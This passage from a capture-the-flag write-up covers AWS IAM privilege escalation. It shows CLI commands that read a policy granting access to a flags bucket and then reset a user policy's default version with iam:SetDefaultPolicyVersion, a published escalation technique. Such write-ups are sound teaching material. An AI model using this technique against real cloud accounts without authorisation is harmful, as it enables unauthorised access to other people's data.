 #### MagicPolicy Permissions

I also reviewed **MagicPolicy**:

```cmd
aws iam get-policy-version --policy-arn arn:aws:iam::212353106417:policy/MagicPolicy --version-id v1
```

**Output:**
```json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Action": "s3:ListBucket",
                    "Resource": "arn:aws:s3:::squ1rrel-ctf-flags"
                },
                {
                    "Effect": "Allow",
                    "Action": [
                        "logs:CreateLogGroup",
                        "logs:CreateLogStream",
                        "logs:PutLogEvents"
                    ],
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-04-05T04:04:31+00:00"
    }
}
```
The policy explicitly grants the ```s3:ListBucket``` action on the bucket identified by the ARN:
```arn:aws:s3:::squ1rrel-ctf-flags```. This indicates that we somehow need to access this bucket.

---

## Step‑2: Escalation via Default Policy Version Change

Given the presence of multiple policy versions and with the **iam:SetDefaultPolicyVersion** permission at our disposal, I applied the technique from the RhinoSecurityLabs article:

> **2. Setting the default policy version to an existing version**  
> *If a policy that they have access to has versions that are not the default, they can change the default version to any other existing version.*

I switched **UserPolicy** to version **v1**:

```cmd
aws iam set-default-policy-version --policy-arn arn:aws:iam::212353106417:policy/UserPolicy --version-id v1
```
